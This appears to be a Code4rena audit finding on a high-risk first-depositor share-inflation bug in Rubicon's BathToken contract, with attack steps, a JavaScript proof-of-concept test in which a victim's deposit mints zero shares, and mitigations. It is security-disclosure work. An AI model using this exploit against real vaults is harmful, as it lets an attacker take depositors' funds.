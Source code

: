 ## Tags

- bug
- 3 (High Risk)
- sponsor confirmed

# [First depositor can break minting of shares](https://github.com/code-423n4/2022-05-rubicon-findings/issues/397) 

# Lines of code

https://github.com/RubiconDeFi/rubicon-protocol-v1/blob/master/contracts/rubiconPools/BathToken.sol#L569-L571


# Vulnerability details

## Impact
The attack vector and impact is the same as [TOB-YEARN-003](https://github.com/yearn/yearn-security/blob/master/audits/20210719_ToB_yearn_vaultsv2/ToB_-_Yearn_Vault_v_2_Smart_Contracts_Audit_Report.pdf), where users may not receive shares in exchange for their deposits if the total asset amount has been manipulated through a large “donation”.

## Proof of Concept
In `BathToken.sol:569-571`, the allocation of shares is calculated as follows:
```js
(totalSupply == 0) ? shares = assets : shares = (
    assets.mul(totalSupply)
).div(_pool);
```

An early attacker can exploit this by:
* Attacker calls `openBathTokenSpawnAndSignal()` with `initialLiquidityNew = 1`, creating a new bath token with `totalSupply = 1`
* Attacker transfers a large amount of underlying tokens to the bath token contract, such as `1000000`
* Using `deposit()`, a victim deposits an amount less than `1000000`, such as `1000`:
    * `assets = 1000`
    * `(assets * totalSupply) / _pool = (1000 * 1) / 1000000 = 0.001`, which would round down to `0`
    * Thus, the victim receives no shares in return for his deposit

To avoid minting 0 shares, subsequent depositors have to deposit equal to or more than the amount transferred by the attacker. Otherwise, their deposits accrue to the attacker who holds the only share.

```js
it("Victim receives 0 shares", async () => {
    // 1. Attacker deposits 1 testCoin first when creating the liquidity pool
    const initialLiquidityNew = 1;
    const initialLiquidityExistingBathToken = ethers.utils.parseUnits("100", decimals);
    
    // Approve DAI and testCoin for bathHouseInstance
    await testCoin.approve(bathHouseInstance.address, initialLiquidityNew, {
        from: attacker,
    });
    await DAIInstance.approve(
        bathHouseInstance.address,
        initialLiquidityExistingBathToken,
        { from: attacker }
    );

    // Call open creation function, attacker deposits only 1 testCoin
    const desiredPairedAsset = await DAIInstance.address;
    await bathHouseInstance.openBathTokenSpawnAndSignal(
        await testCoin.address,
        initialLiquidityNew,
        desiredPairedAsset,
        initialLiquidityExistingBathToken,
        { from: attacker }
    );
    
    // Retrieve resulting bathToken address
    const newbathTokenAddress = await bathHouseInstance.getBathTokenfromAsset(testCoin.address);
    const _newBathToken = await BathToken.at(newbathTokenAddress);

    // 2. Attacker deposits large amount of testCoin into liquidity pool
    let attackerAmt = ethers.utils.parseUnits("1000000", decimals);
    await testCoin.approve(newbathTokenAddress, attackerAmt, {from: attacker});
    await testCoin.transfer(newbathTokenAddress, attackerAmt, {from: attacker});

    // 3. Victim deposits a smaller amount of testCoin, receives 0 shares
    // In this case, we use (1 million - 1) testCoin
    let victimAmt = ethers.utils.parseUnits("999999", decimals);
    await testCoin.approve(newbathTokenAddress, victimAmt, {from: victim});
    await _newBathToken.deposit(victimAmt, victim, {from: victim});
    
    assert.equal(await _newBathToken.balanceOf(victim), 0);
});
```

## Recommended Mitigation Steps
* [Uniswap V2 solved this problem by sending the first 1000 LP tokens to the zero address](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L124). The same can be done in this case i.e. when `totalSupply() == 0`, send the first min liquidity LP tokens to the zero address to enable share dilution.
* In `_deposit()`, ensure the number of shares to be minted is non-zero:  
`require(shares != 0, "No shares minted");`



